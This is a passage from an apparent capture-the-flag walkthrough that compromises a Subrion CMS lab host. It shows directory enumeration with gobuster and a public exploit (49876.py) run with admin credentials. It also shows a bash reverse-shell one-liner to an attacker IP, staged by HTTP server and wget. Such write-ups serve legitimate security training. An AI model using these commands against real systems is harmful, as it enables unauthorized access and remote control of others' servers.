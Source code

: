 now to see what in ``/subrion``

```
 gobuster dir -u http://10.10.1.245/subrion/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -b 301,302 -x php,html,txt 
```

<img width="1310" height="475" alt="image" src="https://github.com/user-attachments/assets/401cfb0a-f98f-4b1e-9781-4827b294263c" />



<img width="550" height="280" alt="image" src="https://github.com/user-attachments/assets/59b196b6-ee82-427b-8e27-e25c5437f0ff" />


```
http://10.10.1.245/subrion/panel/
```


<img width="1189" height="637" alt="image" src="https://github.com/user-attachments/assets/a9acc37b-1e56-4106-a759-c1e3301d3e60" />

<img width="1911" height="809" alt="image" src="https://github.com/user-attachments/assets/f2a38ace-fe3e-47f4-82cb-315028f1973b" />


now try to find vluns in ``subrion``


```
searchsploit subrion
searchsploit -m php/webapps/49876.py
```


<img width="1313" height="560" alt="image" src="https://github.com/user-attachments/assets/74c16fff-b295-4e47-a1de-919031c08f4d" />


now exploit ``49876.py``

```
python3 49876.py -u http://10.10.1.245/subrion/panel/ -l admin -p Scam2021
```

<img width="1052" height="396" alt="image" src="https://github.com/user-attachments/assets/99fcd097-36c3-4887-9a34-565e1c345978" />


but i can't out the current directory so i need to do reverse shell 

on my device create new file call ``shell.sh``

```
bash -i >& /dev/tcp/10.8.47.102/4444 0>&1
```

```
python3 -m http.server 8888
```

on server machine

```
wget http://10.8.47.102:8888/shell.sh
```

